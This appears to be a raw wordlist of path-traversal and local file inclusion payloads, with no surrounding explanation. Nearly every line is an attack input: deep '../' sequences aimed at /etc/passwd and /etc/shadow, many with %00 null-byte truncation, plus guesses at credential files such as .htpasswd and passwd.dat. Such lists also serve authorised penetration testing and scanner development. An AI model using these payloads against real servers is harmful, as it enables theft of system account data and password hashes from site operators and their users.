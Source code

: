 		../../../../../../../../../../../../../etc/passwd%00

		../../../../../../../../../../../../../../etc/passwd

		../../../../../../../../../../../../../../etc/passwd%00

		../../../../../../../../../../../../../../../etc/passwd

		../../../../../../../../../../../../../../../etc/passwd%00

		../../../../../../../../../../../../../../../../etc/passwd

		../../../../../../../../../../../../../../../../etc/passwd%00

		../../../../../../../../../../../../../../../../../etc/passwd

		../../../../../../../../../../../../../../../../../etc/passwd%00

		../../../../../../../../../../../../../../../../../../etc/passwd

		../../../../../../../../../../../../../../../../../../etc/passwd%00

		../../../../../../../../../../../../../../../../../../../etc/passwd

		../../../../../../../../../../../../../../../../../../../etc/passwd%00

		../../../../../../../../../../../../../../../../../../../../etc/passwd

		../../../../../../../../../../../../../../../../../../../../etc/passwd%00

		../../../../../../../../../../../../../../../../../../../../../etc/passwd

		../../../../../../../../../../../../../../../../../../../../../etc/passwd%00

		../../../../../../../../../../../../../../../../../../../../../../etc/passwd

		../../../../../../../../../../../../../../../../../../../../../../etc/passwd%00

		../../../../../../../../../../../../../../../../../../../../../../etc/shadow%00

		../../../../../../etc/passwd&=%3C%3C%3C%3C

		../../../administrator/inbox

		../../../../../../../dev

		.htpasswd

		passwd

		passwd.dat

		pass.dat

		.htpasswd

		/.htpasswd

		../.htpasswd

		.passwd

		/.passwd

		../.passwd
